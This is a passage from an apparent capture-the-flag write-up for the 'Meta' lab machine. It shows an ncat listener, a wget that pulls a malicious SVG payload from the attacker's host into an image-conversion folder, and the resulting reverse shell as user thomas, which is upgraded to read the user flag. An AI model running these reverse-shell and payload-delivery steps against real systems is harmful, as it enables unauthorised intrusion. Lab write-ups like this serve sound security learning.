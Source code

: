 All we have to do now is to set up a ncat listener and to drop the file in the `/var/www/dev01.artcorp.htb/convert_images` on the target machine.

```php
nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:757
```

```php
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ wget 10.10.14.73/poc.svg -O poc.svg
--2022-01-22 17:18:46--  http://10.10.14.73/poc.svg
Connecting to 10.10.14.73:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 475 [image/svg+xml]
Saving to: ‘poc.svg’

poc.svg                                                     100%[==========================================================================================================================================>]     475  --.-KB/s    in 0s

2022-01-22 17:18:46 (55.3 MB/s) - ‘poc.svg’ saved [475/475]

www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ ls -la
total 12
drwxrwxr-x 2 root     www-data 4096 Jan 22 17:18 .
drwxr-xr-x 4 root     root     4096 Oct 18 14:27 ..
-rw-r--r-- 1 www-data www-data  475 Jan 22 15:08 poc.svg
```

After some time we get a connection back as thomas and are able to read the user flag.

```php
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.166.252.
Ncat: Connection from 10.129.166.252:43978.
bash: cannot set terminal process group (1533): Inappropriate ioctl for device
bash: no job control in this shell
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ges$ python3 -c 'import pty;pty.spawn("/bin/bash")'
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ export TERM=xterm
export TERM=xterm
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ ^Z
[1]  + 45412 suspended  nc -lnvp 7575
$ stty raw -echo;fg
[1]  + 45412 continued  nc -lnvp 7575
                                                       ^C
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ stty rows 57 cols 239
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ wc -c ~/user.txt
33 /home/thomas/user.txt
```
